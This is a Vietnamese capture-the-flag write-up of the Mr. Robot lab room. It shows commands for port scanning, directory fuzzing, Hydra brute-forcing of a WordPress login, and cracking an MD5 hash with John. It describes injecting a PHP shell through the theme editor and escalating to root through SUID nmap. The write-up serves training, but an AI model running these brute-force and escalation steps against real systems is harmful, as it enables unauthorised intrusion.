 ![image](https://hackmd.io/_uploads/SJ4aKxC5C.png)

# Room info and Comment
## Room info
Based on the Mr. Robot show, can you root this box?

## Comment
Room này là challenge cổ nên việc exploit khá cơ bản vấn đề vẫn hơi mất tgian việc recon

# Recon
## nmap 
Scan được 3 port ssh, http, https
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -n -sS 10.10.103.38                             
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-17 06:00 EDT
Nmap scan report for 10.10.103.38
Host is up (0.24s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https

Nmap done: 1 IP address (1 host up) scanned in 15.29 seconds
```
## Port 80 - http
Truy cập vào trang ta có một vài option nhưng chỉ có video và không có tác dụng gì

![image](https://hackmd.io/_uploads/rJe62pg050.png)

### Gobuster
```
gobuster dir -u 'http://10.10.103.38/' -w /usr/share/dirb/wordlists/common.txt
```

![image](https://hackmd.io/_uploads/SJfgbWCcR.png)

Từ kết quả fuzz của gobuster, ta có thể thấy một số directory ẩn như robots, … Truy cập vào /robots, ta có thêm thông tin về key thứ nhất:

![image](https://hackmd.io/_uploads/rJYvWWAq0.png)

Truy cập file key-1-of-3.txt, ta có key đầu tiên

## Port 443 - https 
Mặc dù open nhưng khi truy cập lại **Bad Request**

![image](https://hackmd.io/_uploads/Syu8lZR90.png)

# Exploit
Từ kết quả recon ở trên, truy cập vào /wp-login, ta có thể thấy ngay một form đăng nhập vào CMS của WordPress:

![image](https://hackmd.io/_uploads/BkJa-WC5C.png)

## Hydra
Như recon, ta có 1 dic `fsocity.dic` để brute-force username và password
```
hydra -L fsocity.dic -p test 10.10.103.38 http-post-form "/wp-login:log=^USER^&pwd=^PWD^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.103.38%2Fwp-admin%2F&testcookie=1:F=Invalid username."
```

![image](https://hackmd.io/_uploads/HkesSb050.png)

Ta có được username

Tương tự với password
```
hydra -l Elliot -P fsocity.dic 10.10.103.38 http-post-form "/wp-login:log=^USER^&pwd=^PWD^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.103.38%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username " 
```
Đợi rất rất lâu

## Reverse shell
Vào được admin panel, bước tiếp theo ta sẽ tìm cách truy cập vào server. Trong mục Appearance, ta có thể tìm thấy mục Theme Editor. Tại đó ta có thể chỉnh sửa mã nguồn của các trang mặc định:

![image](https://hackmd.io/_uploads/ry9JzZRcR.png)

![image](https://hackmd.io/_uploads/HJe-MWR5A.png)

Như trong hình là mã nguồn của trang 404.php, và ta có thể chỉnh sửa cả những đoạn code php. Mình sẽ thử chèm thêm dòng system(‘id’); vào. Dòng đó sẽ thực thi lệnh ‘id‘ trên server:

![image](https://hackmd.io/_uploads/S1jWMZAqC.png)

Sau đó truy cập vào 404.php:

![image](https://hackmd.io/_uploads/ByfQMWRc0.png)

Vậy là server đã thực thi lệnh id. Lần tới ta sẽ chèn vào một reverse shell:

![image](https://hackmd.io/_uploads/H1iJXWCq0.png)

Tại thư mục /home/robot có 2 file:

![image](https://hackmd.io/_uploads/SyXKQWR50.png)

Đây chính là key thứ 2, tuy nhiên với user hiện tại ta chưa thể đọc được file này

Vậy là trước tiên ta cần đăng nhập bằng robot để có thể đọc được key thứ 2. Tuy nhiên ta vẫn có thể đọc được file còn lại:

![image](https://hackmd.io/_uploads/HJwim-C9R.png)

## John The Ripper 
Sử dung john để crack mật khẩu này
```
john --format=raw-md5 a.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://hackmd.io/_uploads/H1BXEZCcC.png)

![image](https://hackmd.io/_uploads/BkliVEbRcC.png)

su cần chạy trong terminal, nên ta sẽ dùng python để spawn một tty shell:
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
Sau đó ta có thể đăng nhập vào user robot. Giờ thì key thứ 2 đã có thể được đọc

Cuối cùng, chúng ta cần tìm cách leo quyền lên root. Kiểm tra các binary được gán SUID với dòng lệnh:
```
find / -perm -u=s -type f 2>/dev/null
```
Ta có một danh sách:

![image](https://hackmd.io/_uploads/BkWuEZCqC.png)

Đập ngay vào mắt là nmap. Với nmap được gán SUID, ta có thể leo quyền qua chế độ interactive của nó, từ đó sinh ra một shell với quyền root. Khởi chạy interactive mode của nmap với dòng lệnh:

![image](https://hackmd.io/_uploads/S1mFV-05R.png)

# Post-Exploit
Nhập lệnh !sh để sinh ra một shell, kết hợp với SUID được gán cho nmap, ta có một root shell:

![image](https://hackmd.io/_uploads/S1HT4WRcC.png)

Việc còn lại chỉ là lấy key cuối

![image](https://hackmd.io/_uploads/B1gC4-05R.png)

--------------------Kết thúc Challenge!--------------------
